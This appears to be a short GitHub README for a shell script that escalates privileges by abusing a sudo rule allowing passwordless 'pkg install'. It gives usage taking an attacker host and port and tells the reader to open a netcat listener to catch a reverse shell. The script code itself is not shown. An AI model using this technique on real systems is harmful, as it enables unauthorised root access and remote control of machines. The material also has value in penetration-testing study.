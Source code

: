 # pkg_privilege_escalation_script
shellscript for pkg_privilege_escalation

sudo -l

->
    
    (ALL) NOPASSWD: /usr/sbin/pkg update
    
    (ALL) NOPASSWD: /usr/sbin/pkg install *

if get situation like a adove, when pressed "sudo -l"

then exploitable in this script,,, maybe


usage:
    
    ./pkg_priv_esc.sh <lhost> <lport>
    
 
 Don't forget "chmod +x" before execute 


And open other terminal and listenning netcat for reverse_shell
